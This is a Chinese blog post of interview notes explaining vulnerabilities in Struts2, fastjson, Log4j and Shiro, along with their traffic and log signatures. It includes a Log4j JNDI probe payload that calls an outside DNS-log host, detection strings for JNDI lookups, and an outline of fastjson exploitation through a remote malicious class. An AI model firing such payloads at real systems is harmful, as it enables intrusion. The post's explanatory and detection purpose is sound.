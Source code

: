 ```yaml
---
layout:     post
title:      框架漏洞
subtitle:   分析常见框架漏洞及其原理
date:       2024-8-18
author:     BY
header-img: img/back.jpg
catalog: true
tags:
    - 漏洞原理
---
```


## 前言

最近面试被问到了`Struts2`等常用框架的问题。整理一下



## 正文

# Struts2
**原理**
默认的content-type解析器会把用户传来的数据 直接当成代码执行，造成rce
**特征**
ognl表达式，memberaccess字段。可以通过catalina日志过滤关键信息查找攻击特征
# ThinkPhp
RCE、SQL注入为主：
# fastjson反序列化漏洞原理
## 利用原理
处理json数据过程中因为应用开启了autotype，却没进行安全的过滤，造成@type用户可控并会被服务器带回执行。所以利用POST-@type将值指向我们提前搭建在vps上的恶意class文件，期间配置RMI（marshalsec 搭建一个RMI服务器，进行远程加载payload）。传入数据之后，被服务器本地加载并执行反序列化造成漏洞

使用autotype功能进行序列化的json字符会带有一个@type来标记他字符的原始类型，然后在反序列化的时候会通过读取这个@type的值来调用setter或者是getter的方法来把json反序列化到对象。他这个漏洞就是@type的值可以被恶意构造，我们再构造一个合理的json，就能用@type指定一个攻击类库，从而实现攻击。
### 黑盒找洞
找json传输的接口测试回显，信息搜集指纹识别等、可以根据logo图标判断是否使用了fastjson或者改POST花括号不闭合看回显
#### 报错识别
burp修改为post请求   MIME改为json传输 
报错请求返回，会出现alibaba.fastjson，表示为：fastjson框架
### 不出网
直接将命令执行结果写入到静态资源文件里，如html、js等，然后通过访问本地文件查看结果。通过dnslog外带（前提能执行dns请求）直接将结果回显到请求Poc的HTTP响应包中
## 特征
发送json数据会有datesourcename字段，且一般会有@type
# log4j漏洞原理

该漏洞主要是当日志在打印时遇到符号${就会以：为分割，前面的内容当作profix，后面的内容当作key。然后根据profix去寻找对应的lookup，再根据lookup实例调用
lookup方法，最后将key作为参数带入执行，从而引发代码执行漏洞。

# log4j2
## 漏洞原理
rmi和jndi这种服务，远程获取了恶意的class，解析之后造成rce
使用了lookup接口，通过JNDI注入触发日志，且调用jndi/rmi服务，远程获取了恶意的class，
同时java在加载class的时候，进行了反序列化，把 class还原成java，在反序列化中会触发你比如 (恶意class文件还原java后的代码中的）static里的代码Runtime.getRuntime().exec()这种代码，从而造成RCE
### 流量特征
通过全流量设备进行流量回查，同时匹配流量及日志中所有存在
```
jndi:ldap://               jndi:rmi
```
等字符的特征。
（工具可能触发）看DNS记录，设备上是否有dns外带检测告警
## 实战检测
url编码 传输payload，dnslog平台查看即可
```
${jndi:ldap://p8qnbn.dnslog.cn} 
```


# java之shiro漏洞原理 
因为通过rememberme来实现cookie对用户的记住功能，而处理cookie的机制是rememberme作为入口，对数据先base64解码、然后AES解码、然后执行反序列化最后把数据传回服务器。而期间AES的密钥泄露造成用户可以进行恶意cookie重构，所有相反的顺序，通过AES的key，构造出payload，在cookie的rememberme进行注入即可执行反序列化漏洞

## 攻击特征
cookie-rememberme的值正常都比较短，而攻击时的base64值很长
有些工具利用的时候DNSLOG+URLDNS进行检测，所以可能会留下大量dns记录
判断shiro对key正确性

shiro：
查看cookie中rememberme字段，恶意命令要从这里传入。判断是否有漏洞，查看返回包的set cookie，有rememberme=deleteme就说明它漏洞验证失败了。
shiro550：
因为cookie的AES加密使用的硬编码导致密钥可以被爆破，然后利用密钥进行解密和反序列化构建payload
shiro721：
虽然没有硬解码，但是可以构建恶意的rememberme值，因为服务端收到登录请求后，会对cookie的rememberme字段的值进行base64解码，接着进行aes解密，然后反序列化。因为我们自己构造了rememberme，所以经过处理后它的字段就会异常的长，这就是它的流量特征。

二者区别：shiro550使用已知密钥，只要有足够的密钥库，就不需要remember cookie；shiro721的ase加密的key因为是系统随机生成的，基本猜不到，需要使用登录后的rememberme去爆破正确的key值。即利用有效的rememverme cookie作为padding oracle attack的前缀，然后精心构造rememberme cookie值来实现反序列化漏洞攻击，难度高


# SpringBoot
**CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, WordPress, Yii和ZendFramework**

### 参考

